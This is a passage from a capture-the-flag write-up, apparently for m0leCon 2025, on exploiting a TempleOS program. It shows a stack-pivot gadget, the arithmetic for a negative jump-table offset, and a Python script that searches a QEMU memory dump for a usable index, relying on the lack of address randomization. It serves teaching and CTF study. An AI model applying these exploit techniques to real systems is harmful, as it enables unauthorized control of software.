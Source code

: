 ```none
0x3677bd22:  add    rsp,0x30
0x3677bd26:  jmp    0x3677be7d           # Jump to function epilogue
  <...snip...>
0x3677be7d:  pop    rsi
0x3677be7e:  leave                       # Stack pivot into MAlloc'd buffer
0x3677be7f:  ret
```

This "gadget" is not so easy to spot because of its length and the unconditional
JMP to the end of the function, but it does exactly what we want: it pops two
values from the stack and then pops the `book` pointer into RBP, moving it
into `RSP` and giving us RIP control with `leave; ret`.

### Calculating the right jump

Now that we have a base address (`0x3677bd46`) and a destination (`0x3677bcf1`)
we can calculate that the offset needed for the jump is
`0x3677bcf1 - 0x3677bd46 == -85` (or `0xffab` as unsigned 16-bit integer).

Since we read the jump offset with `movsx rbx,WORD PTR [rsi*2+0x3677bf0b]`, we
can read from any odd memory address, provided the right value for RSI (`n`).
One good place to look at is low memory addresses that contain TempleOS kernel
code, which is fixed as the kernel is a precompiled binary blob and TempleOS
does not use any kind of address randomization. Another alternative if we don't
find what we want is to put the 16-bit offset right in the `MAlloc`'d buffer
itself and guess its location, but that would be less reliable.

```none
(qemu) memsave 0x0 0x1000000 mem.bin
```

We can find pretty much any 16-bit offset we want there... we just need a bit of
math (and luck):

```python
jump_table = 0x3677bf0b
jump_base  = 0x3677bd46
target     = 0x3677bcf1
needle     = (target - jump_base).to_bytes(2, 'little', signed=True)

# (qemu) memsave 0x0 0x1000000 mem.bin
mem = open('mem.bin', 'rb').read()

slot_addr = -1
while 1:
    slot_addr = mem.find(needle, slot_addr + 1)
    assert slot_addr != -1

    if (slot_addr - jump_table) % 2 == 0:
        break
else:
    sys.exit('Failed to find jump table index')

print(hex(slot_addr))
# 0x115a7

slot_idx = (slot_addr - jump_table) // 2
print(slot_idx)
# -456873138
```


[ctftime-m0lecon-2025]: https://ctftime.org/event/2725
[tinkeros]: https://github.com/tinkeros/TinkerOS